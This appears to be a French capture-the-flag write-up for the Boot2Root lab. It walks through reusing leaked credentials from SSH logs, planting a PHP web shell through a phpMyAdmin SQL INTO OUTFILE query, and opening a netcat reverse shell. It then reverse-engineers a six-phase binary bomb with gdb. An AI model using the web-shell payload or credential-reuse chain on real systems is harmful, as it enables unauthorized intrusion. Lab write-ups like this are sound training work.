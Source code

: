 # WriteUp1

- Je recupere les [logs du ssh](https://192.168.1.96/forum/index.php?id=6) sur le forum 
- `python3 ssh_parse.py`
<pre>
{'test', 'support', 'naos', 'lmezard', 'guest', 'nagios', 'ubnt', 'root', <strong>'!q\\]Ej?*5K5cy*AJ'</strong>, 'ftpuser', 'PlcmSpIp', 'adm', 'user', 'adam', 'nvdb', 'admin', 'pi'}
</pre>
- Je me connecte avec les login `lmezard` et `!q\]Ej?*5K5cy*AJ`
- le mail est disponible dans les parametres de l'user
- Je me connecte au server imap avec `lmezard@borntosec.net` et `!q\]Ej?*5K5cy*AJ` avec evolution ou sur le site [webmail](https://borntosec.net/webmail/)
- Un mail est disponible
<pre>
Hey Laurie,

You cant connect to the databases now. Use <strong>root/Fg-'kKXBj87E:aJ$</strong>

Best regards.
</pre>
- On peut donc se connecter sur le [PhpMyAdmin](https://192.168.1.96/phpmyadmin/).
- En changant le password de admin par celui de lmezard on peut se connecter en tant qu'admin sur le forum
- J'essaye maintenant d'inserer un code php dans le serveur web pour qu'il soit executer par celui ci
- en exutant cett commande sql je peux ecrire dans un fichier
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```
- en testant tout les dossiers du forum un est executable `/var/www/templates_c`
- Je creer donc un fichier avec un reverse shell pour que se soit plus facile et je creer un serveur en local avec netcat
- dans les home un dossier est presant LOOKATME qui contient un dossier password
```
lmezard:G!@M6f4Eatau{sF"
```

# Lmezard FTP
- On peut se connecter au FTP grace a ces login
- On recupere les fichiers
- On remarque que le fichier fun est une archive de plusieurs fichiers donc on le decompresse avec `tar -xf fun`


README
- Complete this little challenge and use the result as password for user 'laurie' to login in ssh


<pre>
cat * | grep -v Haha | grep -v useless | grep -v '^$'
</pre>

- Nous avons crée un script python qui recupere tout les fichiers et les mets dans l'ordre.

```
$> python fun.py "../Ressources/ft_fun" > fun.c
$> gcc fun.c 
$> ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit% 
```

- Avec le contenu du fichier qui se trouvais dans le serveur ftp nous utilison laurie en login et
 en mot de passe. Nous somme maintenant sur la machine connecté en tant que l'utilisateur **laurie** et 
**330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4** en mot de passe. Nous somme maintenant sur la machine connecté en tant que l'utilisateur laurie.

```
ssh laurie@192.168.1.97
```

## Laurie
- Un fichier README se trouve dans le home de laurie: 

```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

- Un fichier bomb est aussi present.

Nous le decompilons avec binary ninja.

### Phase 1:
- Nous pouvons reporté la string depuis binary ninja: `Public speaking is very easy.`

### Phase 2:
- Avec binary ninja on sait que le premier chiffre est 1
- Pour les suivant on utilise gdb
- On break a la comparaison et on print $eax se qui nous donne le nouveau chiffre
<pre>
[alarmv@alarm scripts]$ gdb ./bomb 
gdb-peda$ b *0x8048b7e
Breakpoint 1 at 0x8048b7e
gdb-peda$ r
Starting program: /home/alarm/Boot2Root/scripts/bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
1 15 15 15 15 15
gdb-peda$ x $eax
0x2:    Cannot access memory at address 0x2
</pre>

### Phase 3 
- Dans binary ninja on voit qu'il y a trois argument "%d %c %d"
- Dans le code il suffit de lire les condition
- Le premier chiffre determine les deux argument d'apres dans les case
- Pour 0
```
case 0
		ebx.b = 0x71 // le char
		if (var_8 !=  0x309) // le int de fin
				explode_bomb()
				noreturn;
```

### Phase 4
- LE SCRIPTTTT !

### Phase 5
- On set un breakpoint au call de la fonction strings_not_equal et de regarder la correscpondance de chaque lettre avec l'autre
<pre>
gdb-peda$ disass phase_5
Dump of assembler code for function phase_5:
   0x08048d7a <+78>:    push   eax
   0x08048d7b <+79>:    call   0x8049030 <strings_not_equal>
   0x08048d80 <+84>:    add    esp,0x10
gdb-peda$ b *0x08048d7b
Breakpoint 1 at 0x8048d7b
gdb-peda$ r bite
Starting program: /home/alarm/Boot2Root/scripts/bomb bite
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd590 ("srveaw")
EBX: 0x804b7c0 ("abcdef")
ECX: 0xffffd590 ("srveaw")
[-------------------------------------code-------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048d7b in phase_5 ()
</pre>
- Se qui donne

| g | i | a | n | t | s |
|:-:|:-:|:-:|:-:|:-:|:-:|
| o | p | e | k | m | q |

### Phase 6
- On sait grace au code qu'il ne faut que:
  - Les chiffres ne soit pas en double
  - Les chiffre doivent etre entre 0 et 6
  - que le premier est egale a 4
- avec ces informations on a testé crée un script qui teste les 775 possibilités
- se qui donne
```
4 2 6 3 1 5
```

### Secret Phase
- On peut rentrer dans la secret a condition qu'une string soit egale a "austinpowers"
- Quand on regarde la string qui est sscanf elle est egale a "9"
- On comprend donc que c'est la string de phase 4 qui est analysé on rajoute donc " austinpowers" a la fin

